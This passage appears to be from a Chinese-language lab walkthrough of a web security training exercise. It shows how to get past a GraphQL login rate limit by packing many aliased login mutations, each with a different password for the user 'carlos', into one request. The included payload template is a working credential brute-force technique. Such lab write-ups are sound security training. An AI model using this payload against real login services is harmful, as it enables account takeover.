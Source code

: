 在发送多个请求之后会看到频次限制的提示：

[![](assets/1708485015-1a089c39abaa6de356eb175444931820.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152627-5c0b7d80-cfc1-1.png)

随后我们在 GraphQL 选项卡中创建一个请求，该请求使用别名在一条消息中发送多个登录，构建请求时请记住以下几点：

-   别名列表包含在{}类型中
-   每个别名都应该具有用户名 carlos 和与身份验证列表不同的密码
-   如果要修改发送给 Repeater 的请求，请在发送之前从请求中删除变量 dictionary 和 operationName 字段
-   您可以从 Repeater 的 Pretty 选项卡执行此操作

确保每个别名都请求 success 字段，如下面的简化示例所示：

```plain
mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }

          bruteforce1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }

          ...

          bruteforce99:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
    }
```

这里我们使用靶场提供的载荷：
